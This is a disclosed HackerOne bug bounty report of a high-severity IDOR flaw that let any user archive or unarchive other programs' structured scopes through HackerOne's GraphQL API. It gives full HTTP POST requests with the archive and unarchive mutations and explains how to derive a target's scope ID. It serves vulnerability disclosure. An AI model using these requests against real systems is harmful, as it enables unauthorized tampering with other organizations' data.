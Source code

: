 # An attacker can archive and unarchive any structured scope object on HackerOne

## Report Details
- **Report ID**: 1501611
- **URL**: https://hackerone.com/reports/1501611
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-03-05T22:21:30.013Z
- **Disclosed**: 2022-04-18T18:22:22.857Z

## Reporter
- **Username**: ahacker1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hello, I have discovered an IDOR vulnerability that allows the scope of any program to be archived. Scopes are used to give information about the valid scopes of a program. For example HackerOne has the following scopes:
https://hackerone.com
https://api.hackerone.com
...

### Steps To Reproduce

1. Obtain the structured_scope_id: 
This can be found by base64 encoding: gid://hackerone/StructuredScope/NUMBER
For example, if the number was 94773 , the structered_scope_id would be Z2lkOi8vaGFja2Vyb25lL1N0cnVjdHVyZWRTY29wZS85NDc3Mw==
Or, it could be found by intercepting the response of the program profile page.

2. Send the Following Request:
``` 
POST /graphql HTTP/2
Host: hackerone.com
Content-Length: 388
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
X-Auth-Token: AUTHTOKEN
Content-Type: application/json
Origin: https://hackerone.com
Referer: https://hackerone.com/hackerone_com_h1b/scopes/94774/edit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7

{"operationName":"ArchiveScope","variables":{"structured_scope_id":"Z2lkOi8vaGFja2Vyb25lL1N0cnVjdHVyZWRTY29wZS85NDc3Mw=="},"query":"mutation ArchiveScope($structured_scope_id: ID!) {\n  archiveStructuredScope(input: {structured_scope_id: $structured_scope_id}) {\n    was_successful\n    structured_scope {\n      id\n      archived_at\n      __typename\n    }\n    __typename\n  }\n}\n"}
```
It is also possible to unarchive scopes of other programs with the following request.:
```
POST /graphql HTTP/2
Host: hackerone.com
Content-Length: 414
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
X-Auth-Token: ████
Content-Type: application/json
Origin: https://hackerone.com
Referer: https://hackerone.com/hackerone_com_h1b/scopes/94774/edit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7

{"operationName":"UnarchiveStructuredScope","variables":{"structured_scope_id":"Z2lkOi8vaGFja2Vyb25lL1N0cnVjdHVyZWRTY29wZS85NDc3Mw=="},"query":"mutation UnarchiveStructuredScope($structured_scope_id: ID!) {\n  unarchiveStructuredScope(input: {structured_scope_id: $structured_scope_id}) {\n    was_successful\n    structured_scope {\n      id\n      archived_at\n      __typename\n    }\n    __typename\n  }\n}\n"}
```
Even though the response will say no structured scope exists, the scope will be archived.
Replace the structured_scope_id with the scope you wish to target and the X-Auth-Token with your token.
I will provide an Mp4 PoC soon.

## Impact

An attacker could archive or unarchive all 90000+ scopes on HackerOne.

## Attachments
No attachments
